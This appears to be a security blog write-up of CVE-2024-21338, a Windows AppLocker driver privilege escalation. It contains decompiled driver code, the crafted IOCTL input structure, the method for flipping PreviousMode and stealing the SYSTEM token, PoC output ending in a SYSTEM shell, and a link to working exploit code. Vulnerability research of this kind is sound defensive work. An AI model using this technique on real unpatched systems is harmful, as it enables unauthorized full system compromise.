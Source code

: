 ```yaml
---
title:      "Windows AppLocker Kernel Elevation of Privilege Vulnerability  "
subtitle:   "Sample Subtitle"
date:       2025-05-18
author:     "Ghostbyt3"
tags:    ["1day", "appid.sys", "windows", "kernel", "memory leak"]
categories: ["1Day Breakdown"]
authorbox: true
pager: true
toc: true
sidebar: "right"
layout: "single"
showTableOfContents: true
---
```


CVE-2024-21338 is a privilege escalation vulnerability in the Windows AppLocker driver (`appid.sys`). The flaw resides in the `AipSmartHashImageFile` function, reachable via IOCTL `0x22A018`, which allows user-mode input to control code execution. Specifically, the function dereferences two user-provided pointers from a shared SystemBuffer without verifying their validity or origin. One of these pointers is treated as a function pointer and is called directly from kernel mode. The patched version adds checks to ensure the input does not originate from user mode and restricts access.

**CVE-2024-21338:** https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21338  
**Vulnerability Type:** Untrusted Pointer Dereference  
**Tested On:** Windows 11 23H2  
**Driver Version:** appid.sys - 10.0.22621.3155    

## Vulnerability analysis


```c++
__int64 __fastcall AipDeviceIoControlDispatch(struct _DEVICE_OBJECT *a1, IRP *_IRP)
{


[::]

      case 0x22A018u:
        if ( WPP_GLOBAL_Control != (PDEVICE_OBJECT)&WPP_GLOBAL_Control && (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) != 0 )
          WPP_SF_(WPP_GLOBAL_Control->AttachedDevice, 27LL, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids);
        if ( CurrentStackLocation->Parameters.DeviceIoControl.InputBufferLength == 32 )
        {
          ConfigOptions = AipSmartHashImageFile((__int64)_IRP->AssociatedIrp.SystemBuffer, 0LL, 0LL, 0LL); // Call to AipSmartHashImageFile with User input
LABEL_103:
          v9 = ConfigOptions;
          break;
        }
LABEL_25:
        v9 = -1073741811;
        break;
      default:
        v7 = WPP_GLOBAL_Control;
        if ( WPP_GLOBAL_Control == (PDEVICE_OBJECT)&WPP_GLOBAL_Control || (HIDWORD(WPP_GLOBAL_Control->Timer) & 2) == 0 )
          goto LABEL_15;
        v8 = 28LL;
LABEL_14:
        WPP_SF_D(v7->AttachedDevice, v8, &WPP_1ce862bc955b392889c1b25f85145990_Traceguids, LowPart);
LABEL_15:
        v9 = -1073741808;
        break;
    }


[::]
```

Following up, the process takes the following path and performs several checks. The main check happens in `appid!AipSmartHashImageFile()` whose primary functionality is passing the value at `SystemBuffer + 8` to [`ObfReferenceObject()`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-obfreferenceobject). This routine increments the reference count of the specified object, which implies that the value at SystemBuffer + 8 must be a valid kernel object address. Otherwise, the reference operation will fail or potentially lead to a crash.

![IMG](/img/cve-2024-21338/img.png)

It calls the function pointer stored at `SystemBuffer + 16`, passing the value at `SystemBuffer` (i.e., the first 8 bytes) as an argument.

```c++
__int64 __fastcall AppHashComputeImageHashInternal(
        __int64 SystemBuffer,
        __int64 (__fastcall **SystemBuffer_16)(__int64, __int128 *),
        unsigned int a3,
        __int64 a4)
{

[::]

  __int64 v43; // [rsp+A8h] [rbp+Fh]

  v39 = SystemBuffer_16;
  *(_QWORD *)v32 = a4;
  v40 = SystemBuffer;
  v29 = 0;
  v37 = 0LL;
  v38 = 0LL;
  v5 = 0;
  v43 = 0LL;
  v6 = 0;
  v30 = 0;
  v33 = 0;
  v34 = 0;
  LODWORD(v35) = 0;
  *(_QWORD *)v41 = 0LL;
  v42 = 0LL;
  if ( !a3 )
    return 0;
  v7 = (*SystemBuffer_16)(SystemBuffer, &v42); // Vulnerable function call


[::]

```

This is a sample structure of how the input should be defined:

```c
typedef struct SMART_HASH_INPUT {
    DWORD64 Arguments_Ptr;
    PVOID Object_Ptr;
    PVOID ExpProfileDelete_Ptr;
    DWORD64 PADDING;
} _SMART_HASH_INPUT, *PSMART_HASH_INPUT;
```
- `Object_Ptr` must be a valid object pointer that satisfies the expectations of `AipSmartHashImageFile()`.
- `ExpProfileDelete_Ptr` is the API that will be invoked. This call is routed through `guard_dispatch_icall_fpt`, which enforces Kernel Control Flow Guard (KCFG). The `nt!ExpProfileDelete()` function ultimately calls the `ObfDereferenceObjectWithTag` kernel macro.
- This macro decrements the reference count field of the object passed to it (located at offset -0x30). This behavior makes it ideal for modifying the `PreviousMode` of a thread—from a user-mode value of 1 to a kernel-mode value of 0.
- To achieve this, we need to pass the address of `nt!ExpProfileDelete()` to `ExpProfileDelete_Ptr`, and `Arguments_Ptr` must point to the `KTHREAD.PreviousMode` field of the current thread.

## Exploit

Tested on: Windows 11 22H2 (01-2024 Build)
Working POC: https://github.com/ghostbyt3/WinDriver-EXP/tree/main/CVE-2024-21338/POC

```
PS C:\Users\h4x\Desktop> .\CVE-2024-21338.exe -p 2116
[+] Trying to find Thread ID for the given process PID: 2116
[+] First Thread ID of the process: 2120
[+] NT base address fffff80012400000
[+] Found EPROCESS of the current process FFFFAD85DAFBE080
[+] Found KTHREAD of the current thread FFFFAD85D9335080
[+] Found EPROCESS of the system.exe FFFFAD85D64E8040
[+] Opened a THREAD_DIRECT_IMPERSONATION handle to the LOCAL_SERVICE process
[+] Opening handle to Applocker device
[+] Dummy FILE_OBJECT address: FFFFAD85DBA171D0
[+] Calling AipSmartHashImageFile ....success
[+] Stealing system's Token..
[+] Replacing KTHREAD.PreviousMode as UserMode..
[+] Spawning shell as SYSTEM...
Microsoft Windows [Version 10.0.22621.1]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h4x\Desktop>whoami
nt authority\system
```

## Acknowledgements

- It was explained by Nero0oo0 and can be found [here](https://nero22k.github.io/posts/windows-applocker-driver-elevation-of-privilege-cve-2024-21338/).
- The [PoC](https://github.com/Nero22k/Exploits/tree/main/Windows/CVE-2024-21338) was developed by Nero0oo0, and the above PoC is based on it.
